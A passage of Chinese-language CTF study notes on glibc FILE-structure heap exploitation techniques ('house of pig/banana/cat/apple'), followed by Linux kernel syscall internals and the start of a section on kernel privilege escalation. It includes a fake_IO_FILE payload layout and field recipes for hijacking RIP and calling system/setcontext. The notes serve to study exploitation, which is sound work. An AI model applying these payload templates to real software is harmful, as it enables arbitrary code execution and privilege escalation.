   0x00007fcec0c789f4 <+4>:     push   rbp
   0x00007fcec0c789f5 <+5>:     push   rbx
   0x00007fcec0c789f6 <+6>:     mov    rbx,rdi
   0x00007fcec0c789f9 <+9>:     sub    rsp,0x8
   0x00007fcec0c789fd <+13>:    mov    rax,QWORD PTR [rdi+0xf0]
   0x00007fcec0c78a04 <+20>:    ror    rax,0x11
   0x00007fcec0c78a08 <+24>:    xor    rax,QWORD PTR fs:0x30
   0x00007fcec0c78a11 <+33>:    test   rax,rax
   0x00007fcec0c78a14 <+36>:    je     0x7fcec0c78a27 <_IO_cookie_write+55>
   0x00007fcec0c78a16 <+38>:    mov    rbp,rdx
   0x00007fcec0c78a19 <+41>:    mov    rdi,QWORD PTR [rdi+0xe0]
   0x00007fcec0c78a20 <+48>:    call   rax
   0x00007fcec0c78a22 <+50>:    cmp    rbp,rax
   0x00007fcec0c78a25 <+53>:    jle    0x7fcec0c78a2a <_IO_cookie_write+58>
   0x00007fcec0c78a27 <+55>:    or     DWORD PTR [rbx],0x20
   0x00007fcec0c78a2a <+58>:    add    rsp,0x8
   0x00007fcec0c78a2e <+62>:    pop    rbx
   0x00007fcec0c78a2f <+63>:    pop    rbp
   0x00007fcec0c78a30 <+64>:    ret 
```


pointer_guard`是`fs:[0x30]`，而`canary`是`fs:[0x28]`，所以直接找`canary


#### house of pig

利用`__IO_list_all`指向伪造的`IO_FILE`,vtable从`_IO_file_jumps`改成`_IO_str_jumps`。

程序退出时调用`_IO_file_overflow`的时候就会转而去调用`_IO_str_overflow`，利用里面会调用malloc函数，控制`_IO_buf_end`、`_IO_buf_base`，就可以控制malloc的size以及写入的数据。


/libio/strops.c

```
_IO_str_overflow (FILE *fp, int c){


#define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)

size_t old_blen = _IO_blen (fp);
size_t new_size = 2 * old_blen + 100;
char *old_buf = fp->_IO_buf_base;
...
new_buf = malloc (new_size);
...
memcpy (new_buf, old_buf, old_blen);
free (old_buf);

}
```


#### house of banana

https://giles-one.github.io/2021/10/04/house-of-%E7%B3%BB%E5%88%97%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90/

程序结束后调用exit，或者程序由libc_start_main启动，并且主函数可以正常结束返回。

执行exit()时,调用了fini_array中的函数。


**p *(struct link_map *)**

```
 struct link_map *l = maps[i];						//_rtld_global这个全局符号所保存的link_map的链表
 
 array = (l->l_addr + l->l_info[26]->d_un.d_ptr);          
 i = (l->l_info[28]->d_un.d_val / 8));
 while (i-- > 0)
        ((fini_t) array[i]) ();
```


劫持第三个节点的next指针

```
pwndbg> distance &_rtld_global &(_rtld_global._dl_ns._ns_loaded->l_next->l_next->l_next)
```


伪造link_map

1. *(fake+0x28)=fake。
2. *(fake +0x48)=fake+0x58, *(fake+0x50) = 0x8
3. *(fake+0x58) = shell
4. *(fake+0x110) = fake+0x40
5. *(fake+0x120) = fake+0x48
6. (int)*(fake+0x31c) = 0x9


#### house of cat

能够触发IO流（FSOP或触发__malloc_assert，或者程序中存在puts等能进入IO链的函数），执行IO相关函数。

修改vtable指针为虚表段内的任意位置；调用**_IO_wfile_jumps**中的**_IO_wfile_seekoff**函数，然后进入到**_IO_switch_to_wget_mode**函数中来攻击


```c
int
_IO_switch_to_wget_mode (FILE *fp)
{
  if (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
    if ((wint_t)_IO_WOVERFLOW (fp, WEOF) == WEOF)
      return EOF;
  if (_IO_in_backup (fp))
    fp->_wide_data->_IO_read_base = fp->_wide_data->_IO_backup_base;
  else
    {
      fp->_wide_data->_IO_read_base = fp->_wide_data->_IO_buf_base;
      if (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_read_end)
	fp->_wide_data->_IO_read_end = fp->_wide_data->_IO_write_ptr;
    }
  fp->_wide_data->_IO_read_ptr = fp->_wide_data->_IO_write_ptr;

  fp->_wide_data->_IO_write_base = fp->_wide_data->_IO_write_ptr
    = fp->_wide_data->_IO_write_end = fp->_wide_data->_IO_read_ptr;

  fp->_flags &= ~_IO_CURRENTLY_PUTTING;
  return 0;
}
libc_hidden_def (_IO_switch_to_wget_mode)


pwndbg> disassemble _IO_switch_to_wget_mode+4
Dump of assembler code for function _IO_switch_to_wget_mode:
   0x00007ffff7c87d00 <+0>:     endbr64 
   0x00007ffff7c87d04 <+4>:     mov    rax,QWORD PTR [rdi+0xa0]	//
   0x00007ffff7c87d0b <+11>:    push   rbx
   0x00007ffff7c87d0c <+12>:    mov    rbx,rdi
   0x00007ffff7c87d0f <+15>:    mov    rdx,QWORD PTR [rax+0x20]	//
   0x00007ffff7c87d13 <+19>:    cmp    rdx,QWORD PTR [rax+0x18]	
   0x00007ffff7c87d17 <+23>:    jbe    0x7ffff7c87d38 <_IO_switch_to_wget_mode+56>
   0x00007ffff7c87d19 <+25>:    mov    rax,QWORD PTR [rax+0xe0]	//
   0x00007ffff7c87d20 <+32>:    mov    esi,0xffffffff
   0x00007ffff7c87d25 <+37>:    call   QWORD PTR [rax+0x18]		//
```


fake_IO结构体需要绕过的检测

```
_wide_data->_IO_read_ptr ！= _wide_data->_IO_read_end
_wide_data->_IO_write_ptr > _wide_data->_IO_write_base
#如果_wide_data=fake_io_addr+0x30，其实也就是fp->_IO_save_base < fp->_IO_backup_base
fp->_lock是一个可写地址（堆地址、libc中的可写地址）
```


```
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)+p64(0)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(0)
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```


_IO_file_xsputn

__strlen_avx2


#### house of apple


使用`house of apple2`的条件为：

- 已知`heap`地址和`glibc`地址
- 能控制程序执行`IO`操作，包括但不限于：从`main`函数返回、调用`exit`函数、通过`__malloc_assert`触发
- 能控制`_IO_FILE`的`vtable`和`_wide_data`，一般使用`largebin attack`去控制


```
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)
#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)
# define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable (_IO_JUMPS_FILE_plus (THIS)))
# define _IO_JUMPS_FUNC(THIS) \
  (IO_validate_vtable                                                   \
   (*(struct _IO_jump_t **) ((void *) &_IO_JUMPS_FILE_plus (THIS)	\
			     + (THIS)->_vtable_offset)))
```


```c
int
_IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  FILE *fp;

#ifdef _IO_MTSAFE_IO
  _IO_cleanup_region_start_noarg (flush_cleanup);
  _IO_lock_lock (list_all_lock);
#endif

  for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
    {
      run_fp = fp;
      if (do_lock)
	_IO_flockfile (fp);

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;

      if (do_lock)
	_IO_funlockfile (fp);
      run_fp = NULL;
    }

#ifdef _IO_MTSAFE_IO
  _IO_lock_unlock (list_all_lock);
  _IO_cleanup_region_end (0);
#endif

  return result;
}


IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  /* Fast path: The vtable pointer is within the __libc_IO_vtables
     section.  */
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  uintptr_t ptr = (uintptr_t) vtable;
  uintptr_t offset = ptr - (uintptr_t) __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length))
    /* The vtable pointer is not in the expected section.  Use the
       slow path, which will terminate the process if necessary.  */
    _IO_vtable_check ();
  return vtable;
}
```


利用_IO_wfile_overflow函数控制程序执行流

对`fp`的设置如下：

- `_flags`设置为`~(2 | 0x8 | 0x800)`，如果不需要控制`rdi`，设置为`0`即可；如果需要获得`shell`，可设置为`sh;`，注意前面有两个空格
- `vtable`设置为`_IO_wfile_jumps/_IO_wfile_jumps_mmap/_IO_wfile_jumps_maybe_mmap`地址（加减偏移），使其能成功调用`_IO_wfile_overflow`即可
- `_wide_data`设置为可控堆地址`A`，即满足`*(fp + 0xa0) = A`
- `_wide_data->_IO_write_base`设置为`0`，即满足`*(A + 0x18) = 0`
- `_wide_data->_IO_buf_base`设置为`0`，即满足`*(A + 0x30) = 0`
- `_wide_data->_wide_vtable`设置为可控堆地址`B`，即满足`*(A + 0xe0) = B`
- `_wide_data->_wide_vtable->doallocate`设置为地址`C`用于劫持`RIP`，即满足`*(B + 0x68) = C`


```c
glibc-2.34
wint_t
_IO_wfile_overflow (FILE *f, wint_t wch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
    {
      _IO_wdoallocbuf (f);// 需要走到这里
      // ......
    }
    }
}

pwndbg> disassemble _IO_wfile_overflow
Dump of assembler code for function _IO_wfile_overflow:
   0x00007ffff7c8a370 <+0>:     endbr64 
   0x00007ffff7c8a374 <+4>:     push   r12
   0x00007ffff7c8a376 <+6>:     push   rbp
   0x00007ffff7c8a377 <+7>:     mov    rbp,rdi
   0x00007ffff7c8a37a <+10>:    sub    rsp,0x8
   0x00007ffff7c8a37e <+14>:    mov    eax,DWORD PTR [rdi]
   0x00007ffff7c8a380 <+16>:    test   al,0x8
   0x00007ffff7c8a382 <+18>:    jne    0x7ffff7c8a4b0 <_IO_wfile_overflow+320>
   0x00007ffff7c8a388 <+24>:    mov    r12d,esi
   0x00007ffff7c8a38b <+27>:    test   ah,0x8
   0x00007ffff7c8a38e <+30>:    jne    0x7ffff7c8a415 <_IO_wfile_overflow+165>
   0x00007ffff7c8a394 <+36>:    mov    rdx,QWORD PTR [rdi+0xa0]			//rdx已经被赋值
   0x00007ffff7c8a39b <+43>:    cmp    QWORD PTR [rdx+0x18],0x0
   0x00007ffff7c8a3a0 <+48>:    je     0x7ffff7c8a5d0 <_IO_wfile_overflow+608>
   ………………
   0x00007ffff7c8a5d0 <+608>:   call   0x7ffff7c87bc0 <_IO_wdoallocbuf>
   ………
```


```
#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
#define WJUMP0(FUNC, THIS) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS)
#define _IO_WIDE_JUMPS_FUNC(THIS) _IO_WIDE_JUMPS(THIS)
#define _IO_WIDE_JUMPS(THIS) \
  _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable


void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)   //调用
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}
libc_hidden_def (_IO_wdoallocbuf)


pwndbg> disassemble _IO_wdoallocbuf
Dump of assembler code for function _IO_wdoallocbuf:
   0x00007ffff7c87bc0 <+0>:     endbr64 
   0x00007ffff7c87bc4 <+4>:     mov    rax,QWORD PTR [rdi+0xa0]	//
   0x00007ffff7c87bcb <+11>:    cmp    QWORD PTR [rax+0x30],0x0	//
   0x00007ffff7c87bd0 <+16>:    je     0x7ffff7c87bd8 <_IO_wdoallocbuf+24>
   0x00007ffff7c87bd2 <+18>:    ret    
   0x00007ffff7c87bd3 <+19>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x00007ffff7c87bd8 <+24>:    push   r12
   0x00007ffff7c87bda <+26>:    push   rbp
   0x00007ffff7c87bdb <+27>:    push   rbx
   0x00007ffff7c87bdc <+28>:    mov    rbx,rdi
   0x00007ffff7c87bdf <+31>:    test   BYTE PTR [rdi],0x2
   0x00007ffff7c87be2 <+34>:    jne    0x7ffff7c87c58 <_IO_wdoallocbuf+152>
   0x00007ffff7c87be4 <+36>:    mov    rax,QWORD PTR [rax+0xe0]	//
   0x00007ffff7c87beb <+43>:    call   QWORD PTR [rax+0x68]		//
```


## Kernel PWN


编译问题：

```
sudo apt install dwarves
CONFIG_DEBUG_INFO_BTF y->n
```


#### 系统调用

**用户态 —> 内核态**

主要的一个过程如下：

- 切换GS段寄存器

  通过 `swapgs` 切换 GS 段寄存器，将 GS 寄存器值和一个特定位置的值进行交换，目的是保存 GS 值，同时将该位置的值作为内核执行时的 GS 值使用

- 保存用户态栈帧信息

  将当前栈顶（用户空间栈顶）记录在 CPU 独占变量区域里，将 CPU 独占区域里记录的内核栈顶放入 rsp/esp

- 保存用户态寄存器信息

通过 push 保存各寄存器值到栈上，以便后续“着陆”回用户态

- 通过汇编指令判断是否为32位

- 控制权转交内核，执行系统调用

  在这里用到一个全局函数表`sys_call_table`，其中保存着系统调用的函数指针

**内核态 —> 用户态**

由内核态重新“着陆”回用户态只需要恢复用户空间信息即可：

- `swapgs`指令恢复用户态GS寄存器
- `sysretq`或者`iretq`恢复到用户空间，如果使用 `iretq` 还需要给出用户空间的一些信息（CS, eflags/rflags, esp/rsp 等）


部分源码

/arch/x86/entry/entry_64.S

```assembly
ENTRY(entry_SYSCALL_64)
	UNWIND_HINT_EMPTY
	/* Interrupts are off on entry. */
	swapgs
	// 将用户栈偏移保存到 per-cpu 变量 rsp_scratch 中
	movq	%rsp, PER_CPU_VAR(rsp_scratch)
	// 切换到进程内核栈
	movq	PER_CPU_VAR(cpu_current_top_of_stack), %rsp

	/* 在栈中倒序构建 struct pt_regs */
	pushq	$__USER_DS			/* pt_regs->ss */
	pushq	PER_CPU_VAR(rsp_scratch)	/* pt_regs->sp */
	pushq	%r11				/* pt_regs->flags */
	pushq	$__USER_CS			/* pt_regs->cs */
	pushq	%rcx				/* pt_regs->ip */
GLOBAL(entry_SYSCALL_64_after_hwframe)
	//rax 保存着系统调用号
	pushq	%rax				/* pt_regs->orig_ax */

	PUSH_AND_CLEAR_REGS rax=$-ENOSYS

	TRACE_IRQS_OFF

	/* 保存参数到寄存器，调用do_syscall_64函数 */
	movq	%rax, %rdi
	movq	%rsp, %rsi
call	do_syscall_64		/* returns with IRQs disabled */
```

**rcx寄存器保存在了pt_regs->ip 位置，是因为根据 Intel SDM，syscall 会将当前 rip 存到 rcx ，然后将 IA32_LSTAR 加载到 rip 。因此用户空间下一条指令就是从rcx寄存器中获取。**


syscall返回那部分

```assembly
LOCKDEP_SYS_EXIT   // 宏的实现与 CONFIG_DEBUG_LOCK_ALLOC 内核配置选项相关，该配置允许在退出系统调用时调试锁。
 TRACE_IRQS_ON       /* user mode is traced as IRQs on */
 movq    RIP(%rsp), %rcx
 movq    EFLAGS(%rsp), %r11
 
 RESTORE_C_REGS_EXCEPT_RCX_R11
 // 恢复除 rcx 和 r11 外所有通用寄存器, 因为 rcx 寄存器为调用系统调用的应用程序的返回地址， r11 寄存器为老的 flags register
 
 /* 根据压栈的内容，恢复 rsp 为用户态的栈顶 */
 movq    RSP(%rsp), %rsp
 
 USERGS_SYSRET64
/* 调用宏 USERGS_SYSRET64 ，其扩展调用 swapgs 指令交换用户 GS 和内核GS， sysret 指令执行从系统调用处理退出 */
```

**执行sysret时，它从rcx加载rip，并从r11加载rflags，从 MSR的 IA32_STAR[63:48] 加载CS ，从 IA32_STAR[63:48] + 8 加载SS。SYSRET指令不会修改堆栈指针（ESP或RSP），因此在执行SYSRET之前rsp必须切换到用户堆栈，当然还要切换GS寄存器。**


汇编（未开启KPTI）

**cr3**: 存储了当前进程的虚拟地址空间的重要信息——**页目录**地址

```assembly
disassemble 0xffffffff81a00010
Dump of assembler code for function __do_softirq:
   0xffffffff81a00000 <+0>:	pop    rdi
   0xffffffff81a00001 <+1>:	jmp    0xffffffff81a00034 <__do_softirq+52>
   0xffffffff81a00006 <+6>:	nop    WORD PTR cs:[rax+rax*1+0x0]
=> 0xffffffff81a00010 <+16>:	swapgs 
   0xffffffff81a00013 <+19>:	mov    QWORD PTR gs:0x140d8,rsp
   0xffffffff81a0001c <+28>:	mov    rsp,QWORD PTR gs:0x500c
   0xffffffff81a00025 <+37>:	push   0x2b
   0xffffffff81a00027 <+39>:	push   QWORD PTR gs:0x140d8
   0xffffffff81a0002f <+47>:	push   r11
   0xffffffff81a00031 <+49>:	push   0x33
   0xffffffff81a00033 <+51>:	push   rcx
   0xffffffff81a00034 <+52>:	push   rax
   0xffffffff81a00035 <+53>:	push   rdi
   0xffffffff81a00036 <+54>:	push   rsi
   0xffffffff81a00037 <+55>:	push   rdx
   0xffffffff81a00038 <+56>:	push   rcx
   0xffffffff81a00039 <+57>:	push   0xffffffffffffffda
   0xffffffff81a0003b <+59>:	push   r8
   0xffffffff81a0003d <+61>:	xor    r8,r8
   0xffffffff81a00040 <+64>:	push   r9
   0xffffffff81a00042 <+66>:	xor    r9,r9
   0xffffffff81a00045 <+69>:	push   r10
   0xffffffff81a00047 <+71>:	xor    r10,r10
   0xffffffff81a0004a <+74>:	push   r11
   0xffffffff81a0004c <+76>:	xor    r11,r11
   0xffffffff81a0004f <+79>:	push   rbx
   0xffffffff81a00050 <+80>:	xor    ebx,ebx
   0xffffffff81a00052 <+82>:	push   rbp
   0xffffffff81a00053 <+83>:	xor    ebp,ebp
   0xffffffff81a00055 <+85>:	push   r12
   0xffffffff81a00057 <+87>:	xor    r12,r12
   0xffffffff81a0005a <+90>:	push   r13
   0xffffffff81a0005c <+92>:	xor    r13,r13
   0xffffffff81a0005f <+95>:	push   r14
   0xffffffff81a00061 <+97>:	xor    r14,r14
   0xffffffff81a00064 <+100>:	push   r15
   0xffffffff81a00066 <+102>:	xor    r15,r15
   0xffffffff81a00069 <+105>:	mov    rdi,rsp
   0xffffffff81a0006c <+108>:	call   0xffffffff810013a0 <vvar_fault+99>
   0xffffffff81a00071 <+113>:	mov    rcx,QWORD PTR [rsp+0x58]
   0xffffffff81a00076 <+118>:	mov    r11,QWORD PTR [rsp+0x80]
   0xffffffff81a0007e <+126>:	cmp    r11,rcx
   0xffffffff81a00081 <+129>:	jne    0xffffffff81a008da <kvm_fastop_exception+1600>
   0xffffffff81a00087 <+135>:	shl    rcx,0x10
   0xffffffff81a0008b <+139>:	sar    rcx,0x10
   0xffffffff81a0008f <+143>:	cmp    r11,rcx
   0xffffffff81a00092 <+146>:	jne    0xffffffff81a008da <kvm_fastop_exception+1600>
   0xffffffff81a00098 <+152>:	cmp    QWORD PTR [rsp+0x88],0x33
   0xffffffff81a000a1 <+161>:	jne    0xffffffff81a008da <kvm_fastop_exception+1600>
   0xffffffff81a000a7 <+167>:	mov    r11,QWORD PTR [rsp+0x30]
   0xffffffff81a000ac <+172>:	cmp    QWORD PTR [rsp+0x90],r11
   0xffffffff81a000b4 <+180>:	jne    0xffffffff81a008da <kvm_fastop_exception+1600>
   0xffffffff81a000ba <+186>:	test   r11,0x10100
   0xffffffff81a000c1 <+193>:	jne    0xffffffff81a008da <kvm_fastop_exception+1600>
   0xffffffff81a000c7 <+199>:	cmp    QWORD PTR [rsp+0xa0],0x2b
   0xffffffff81a000d0 <+208>:	jne    0xffffffff81a008da <kvm_fastop_exception+1600>
   0xffffffff81a000d6 <+214>:	pop    r15
   0xffffffff81a000d8 <+216>:	pop    r14
   0xffffffff81a000da <+218>:	pop    r13
   0xffffffff81a000dc <+220>:	pop    r12
   0xffffffff81a000de <+222>:	pop    rbp
   0xffffffff81a000df <+223>:	pop    rbx
   0xffffffff81a000e0 <+224>:	pop    rsi
   0xffffffff81a000e1 <+225>:	pop    r10
   0xffffffff81a000e3 <+227>:	pop    r9
   0xffffffff81a000e5 <+229>:	pop    r8
   0xffffffff81a000e7 <+231>:	pop    rax
   0xffffffff81a000e8 <+232>:	pop    rsi
   0xffffffff81a000e9 <+233>:	pop    rdx
   0xffffffff81a000ea <+234>:	pop    rsi
   0xffffffff81a000eb <+235>:	mov    rdi,rsp
   0xffffffff81a000ee <+238>:	mov    rsp,QWORD PTR gs:0x5004
   0xffffffff81a000f7 <+247>:	push   QWORD PTR [rdi+0x28]
   0xffffffff81a000fa <+250>:	push   QWORD PTR [rdi]
   0xffffffff81a000fc <+252>:	push   rax
   0xffffffff81a000fd <+253>:	jmp    0xffffffff81a00142 <__do_softirq+322>
   0xffffffff81a000ff <+255>:	mov    rdi,cr3
   0xffffffff81a00102 <+258>:	jmp    0xffffffff81a00138 <__do_softirq+312>
   0xffffffff81a00104 <+260>:	mov    rax,rdi
   0xffffffff81a00107 <+263>:	and    rdi,0x7ff
   0xffffffff81a0010e <+270>:	bt     QWORD PTR gs:0x1eeda,rdi
   0xffffffff81a00118 <+280>:	jae    0xffffffff81a00129 <__do_softirq+297>
   0xffffffff81a0011a <+282>:	btr    QWORD PTR gs:0x1eeda,rdi
   0xffffffff81a00124 <+292>:	mov    rdi,rax
   0xffffffff81a00127 <+295>:	jmp    0xffffffff81a00131 <__do_softirq+305>
   0xffffffff81a00129 <+297>:	mov    rdi,rax
   0xffffffff81a0012c <+300>:	bts    rdi,0x3f
   0xffffffff81a00131 <+305>:	or     rdi,0x800
   0xffffffff81a00138 <+312>:	or     rdi,0x1000
   0xffffffff81a0013f <+319>:	mov    cr3,rdi
   0xffffffff81a00142 <+322>:	pop    rax
   0xffffffff81a00143 <+323>:	pop    rdi
   0xffffffff81a00144 <+324>:	pop    rsp
   0xffffffff81a00145 <+325>:	swapgs 
   0xffffffff81a00148 <+328>:	sysretq 
   0xffffffff81a0014b <+331>:	nop    DWORD PTR [rax+rax*1+0x0]
   0xffffffff81a00150 <+336>:	push   rbp
   0xffffffff81a00151 <+337>:	push   rbx
   0xffffffff81a00152 <+338>:	push   r12
   0xffffffff81a00154 <+340>:	push   r13
   0xffffffff81a00156 <+342>:	push   r14
   0xffffffff81a00158 <+344>:	push   r15
   0xffffffff81a0015a <+346>:	mov    QWORD PTR [rdi+0x958],rsp
   0xffffffff81a00161 <+353>:	mov    rsp,QWORD PTR [rsi+0x958]
   0xffffffff81a00168 <+360>:	mov    rbx,QWORD PTR [rsi+0x4d0]
   0xffffffff81a0016f <+367>:	mov    QWORD PTR gs:0x28,rbx
   0xffffffff81a00178 <+376>:	call   0xffffffff81c03220 <ivbep_uncore_pci_ids+304>
   0xffffffff81a0017d <+381>:	pop    r15
   0xffffffff81a0017f <+383>:	pop    r14
   0xffffffff81a00181 <+385>:	pop    r13
   0xffffffff81a00183 <+387>:	pop    r12
   0xffffffff81a00185 <+389>:	pop    rbx
   0xffffffff81a00186 <+390>:	pop    rbp
   0xffffffff81a00187 <+391>:	jmp    0xffffffff81049cb0 <init_amd+639>
   0xffffffff81a0018c <+396>:	nop    DWORD PTR [rax+0x0]
   0xffffffff81a00190 <+400>:	mov    rdi,rax
   0xffffffff81a00193 <+403>:	call   0xffffffff810a24d0 <probe_irq_off+64>
   0xffffffff81a00198 <+408>:	test   rbx,rbx
End of assembler dump.
```


swapgs_restore_regs_and_return_to_usermode函数汇编

```asm
   0xffffffff81a008da <+1600>:	pop    r15
   0xffffffff81a008dc <+1602>:	pop    r14
   0xffffffff81a008de <+1604>:	pop    r13
   0xffffffff81a008e0 <+1606>:	pop    r12
   0xffffffff81a008e2 <+1608>:	pop    rbp
   0xffffffff81a008e3 <+1609>:	pop    rbx
   0xffffffff81a008e4 <+1610>:	pop    r11
   0xffffffff81a008e6 <+1612>:	pop    r10
   0xffffffff81a008e8 <+1614>:	pop    r9
   0xffffffff81a008ea <+1616>:	pop    r8
   0xffffffff81a008ec <+1618>:	pop    rax
   0xffffffff81a008ed <+1619>:	pop    rcx
   0xffffffff81a008ee <+1620>:	pop    rdx
   0xffffffff81a008ef <+1621>:	pop    rsi
   0xffffffff81a008f0 <+1622>:	mov    rdi,rsp
   0xffffffff81a008f3 <+1625>:	mov    rsp,QWORD PTR gs:0x5004
   0xffffffff81a008fc <+1634>:	push   QWORD PTR [rdi+0x30]
   0xffffffff81a008ff <+1637>:	push   QWORD PTR [rdi+0x28]
   0xffffffff81a00902 <+1640>:	push   QWORD PTR [rdi+0x20]
   0xffffffff81a00905 <+1643>:	push   QWORD PTR [rdi+0x18]
   0xffffffff81a00908 <+1646>:	push   QWORD PTR [rdi+0x10]
   0xffffffff81a0090b <+1649>:	push   QWORD PTR [rdi]
   0xffffffff81a0090d <+1651>:	push   rax
   0xffffffff81a0090e <+1652>:	jmp    0xffffffff81a00953 <kvm_fastop_exception+1721>
   0xffffffff81a00910 <+1654>:	mov    rdi,cr3
   0xffffffff81a00913 <+1657>:	jmp    0xffffffff81a00949 <kvm_fastop_exception+1711>
   0xffffffff81a00915 <+1659>:	mov    rax,rdi
   0xffffffff81a00918 <+1662>:	and    rdi,0x7ff
   0xffffffff81a0091f <+1669>:	bt     QWORD PTR gs:0x1eeda,rdi
   0xffffffff81a00929 <+1679>:	jae    0xffffffff81a0093a <kvm_fastop_exception+1696>
   0xffffffff81a0092b <+1681>:	btr    QWORD PTR gs:0x1eeda,rdi
   0xffffffff81a00935 <+1691>:	mov    rdi,rax
   0xffffffff81a00938 <+1694>:	jmp    0xffffffff81a00942 <kvm_fastop_exception+1704>
   0xffffffff81a0093a <+1696>:	mov    rdi,rax
   0xffffffff81a0093d <+1699>:	bts    rdi,0x3f
   0xffffffff81a00942 <+1704>:	or     rdi,0x800
   0xffffffff81a00949 <+1711>:	or     rdi,0x1000
   0xffffffff81a00950 <+1718>:	mov    cr3,rdi
   0xffffffff81a00953 <+1721>:	pop    rax
   0xffffffff81a00954 <+1722>:	pop    rdi
   0xffffffff81a00955 <+1723>:	swapgs 
   0xffffffff81a00958 <+1726>:	jmp    0xffffffff81a00980 <kvm_fastop_exception+1766>
   0xffffffff81a0095d <+1731>:	pop    r15
   0xffffffff81a0095f <+1733>:	pop    r14
   0xffffffff81a00961 <+1735>:	pop    r13
   0xffffffff81a00963 <+1737>:	pop    r12
   0xffffffff81a00965 <+1739>:	pop    rbp
   0xffffffff81a00966 <+1740>:	pop    rbx
   0xffffffff81a00967 <+1741>:	pop    r11
   0xffffffff81a00969 <+1743>:	pop    r10
   0xffffffff81a0096b <+1745>:	pop    r9
   0xffffffff81a0096d <+1747>:	pop    r8
   0xffffffff81a0096f <+1749>:	pop    rax
   0xffffffff81a00970 <+1750>:	pop    rcx
   0xffffffff81a00971 <+1751>:	pop    rdx
   0xffffffff81a00972 <+1752>:	pop    rsi
   0xffffffff81a00973 <+1753>:	pop    rdi
   0xffffffff81a00974 <+1754>:	add    rsp,0x8
   0xffffffff81a00978 <+1758>:	jmp    0xffffffff81a00980 <kvm_fastop_exception+1766>
   0xffffffff81a0097d <+1763>:	nop    DWORD PTR [rax]
   0xffffffff81a00980 <+1766>:	test   BYTE PTR [rsp+0x20],0x4
   0xffffffff81a00985 <+1771>:	jne    0xffffffff81a00989 <kvm_fastop_exception+1775>
   0xffffffff81a00987 <+1773>:	iretq 
```


[Linux syscall过程分析（万字长文） - 腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1492374)

[linux 进程内核栈 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/296750228)


#### slab 分配

/mm/slab_common.c

```c
const struct kmalloc_info_struct kmalloc_info[] __initconst = {
	INIT_KMALLOC_INFO(0, 0),
	INIT_KMALLOC_INFO(96, 96),
	INIT_KMALLOC_INFO(192, 192),
	INIT_KMALLOC_INFO(8, 8),
	INIT_KMALLOC_INFO(16, 16),
	INIT_KMALLOC_INFO(32, 32),
	INIT_KMALLOC_INFO(64, 64),
	INIT_KMALLOC_INFO(128, 128),
	INIT_KMALLOC_INFO(256, 256),
	INIT_KMALLOC_INFO(512, 512),
	INIT_KMALLOC_INFO(1024, 1k),
	INIT_KMALLOC_INFO(2048, 2k),
	INIT_KMALLOC_INFO(4096, 4k),
	INIT_KMALLOC_INFO(8192, 8k),
	INIT_KMALLOC_INFO(16384, 16k),
	INIT_KMALLOC_INFO(32768, 32k),
	INIT_KMALLOC_INFO(65536, 64k),
	INIT_KMALLOC_INFO(131072, 128k),
	INIT_KMALLOC_INFO(262144, 256k),
	INIT_KMALLOC_INFO(524288, 512k),
	INIT_KMALLOC_INFO(1048576, 1M),
	INIT_KMALLOC_INFO(2097152, 2M)
};
```


#### 提权


- `struct cred* prepare_kernel_cred(struct task_struct* daemon)`：该函数用以拷贝一个进程的cred结构体，并返回一个新的cred结构体，需要注意的是`daemon`参数应为**有效的进程描述符地址或NULL**
- `int commit_creds(struct cred *new)`：该函数用以将一个新的`cred`结构体应用到进程

`prepare_kernel_cred()`函数如下逻辑：

```c
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
    const struct cred *old;
    struct cred *new;

